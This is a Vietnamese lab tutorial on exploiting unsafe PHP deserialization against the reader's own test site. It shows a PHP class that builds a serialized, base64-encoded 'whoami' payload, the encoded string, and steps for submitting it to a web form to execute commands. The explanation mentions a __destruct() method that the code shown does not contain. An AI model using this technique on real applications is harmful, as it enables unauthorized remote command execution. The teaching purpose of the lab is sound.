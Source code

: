 ## **2. Thực hiện khai thác lỗ hổng Unsafe deserialization**

### ⚙️ 1. Tạo class giả lập trên máy attacker:

```js
<?php  
class Evil {  
    public $cmd;  
  
    function __construct($cmd) {  
        $this->cmd = $cmd;  
    }  
}  
$payload = new Evil("whoami");  
echo base64_encode(serialize($payload));  
?>
```

### 🧪 Kết quả bạn sẽ nhận được một chuỗi base64, ví dụ:

```js
Tzo0OiJFdmlsIjoxOntzOjM6ImNtZCI7czo2OiJ3aG9hbWkiO30=
```

### 🚀 2. Gửi chuỗi đó vào `Form 2` trên trang web của bạn

- Nếu server không chặn, PHP sẽ deserialize object đó
    
- Và nếu có `__destruct()` như trên → nó **chạy lệnh `whoami`**, và bạn thấy output trả về.

![3](https://github.com/user-attachments/assets/ad594604-06d5-45f9-b996-0fadca7686ef)
